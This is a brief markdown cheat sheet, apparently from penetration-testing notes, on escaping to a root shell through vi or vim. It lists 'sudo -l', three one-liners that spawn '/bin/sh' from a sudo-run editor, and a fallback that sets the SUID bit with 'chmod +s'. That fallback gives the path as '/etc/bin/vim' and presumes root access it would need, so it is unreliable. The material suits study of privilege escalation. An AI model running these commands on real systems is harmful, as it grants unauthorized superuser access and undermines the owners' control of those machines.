 # VIM
***

- List commands that a user is allowed to execute with superuser privileges
```sh
sudo -l
```

- Method 1
```sh
sudo vi
:!sh
```

- Method 2
```sh
sudo vim -c ':!/bin/sh'
```

- Method 3
```sh
sudo vi -c '!sh'
```


- If nothing works, try to set the SUID first, then try again.
```sh
chmod +s /etc/bin/vim
# OR
chmod +s /etc/bin/vi
```

